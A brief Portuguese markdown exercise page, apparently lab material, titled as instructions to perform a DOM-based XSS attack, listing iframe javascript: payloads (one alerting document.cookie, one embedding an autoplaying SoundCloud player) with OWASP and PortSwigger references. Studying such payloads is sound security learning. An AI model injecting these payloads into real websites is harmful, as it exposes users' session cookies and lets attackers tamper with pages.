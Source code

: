 ## Realize um ataque XSS do tipo DOM

```
<iframe src="javascript:alert(`xss`)">
```
```
<iframe src="javascript:alert(document.cookie)">
```
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe> 
```
https://owasp.org/www-community/Types_of_Cross-Site_Scripting

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
